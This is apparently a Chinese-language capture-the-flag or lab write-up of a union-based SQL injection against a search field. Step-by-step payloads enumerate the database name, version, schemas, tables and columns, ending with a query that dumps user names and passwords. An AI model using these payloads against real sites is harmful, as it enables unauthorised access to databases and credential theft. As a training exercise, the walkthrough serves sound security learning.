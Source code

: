 注册一个账号吧：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403181822536.png" alt="image-20240318163957896" style="zoom:33%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403181822537.png" alt="image-20240318164129837" style="zoom:50%;" />

### sql注入

进来了，尝试看一下有没有漏洞，不过不管输入啥，都会弹回来，尝试抓包看一下：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403181822538.png" alt="image-20240318164920984" style="zoom:50%;" />

尝试注入一下：

```sql
search=ctf' or 1=1 -- -
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403181822539.png" alt="image-20240318165209049" style="zoom:33%;" />

我擦，砖业啊！！！再查询一下：

```bash
search=ctf' union select database(),2,3-- -
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403181822540.png" alt="image-20240318170939395" style="zoom:33%;" />

获得了数据库名称，继续：

```bash
search=ctf' union select @@version,2,3 -- -
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403181822541.png" alt="image-20240318171148161" style="zoom:33%;" />

获取到了版本，继续：

```bash
search=ctf' union select schema_name,2,3 from information_schema.schemate -- -
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403181822542.png" alt="image-20240318171609446" style="zoom:33%;" />

发现打错了，哈哈哈

```bash
search=ctf' union select schema_name,2,3 from information_schema.schemata -- -
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403181822543.png" alt="image-20240318173702625" style="zoom:50%;" />

继续查询：

```bash
# 查询当前数据库表名
search=ctf' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()#
# 查询users表所有列名
search=ctf' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' and table_schema=database()#
# 查询users表的所有列值
search=ctf' union select 1,group_concat(user),group_concat(pasword) from users#
```

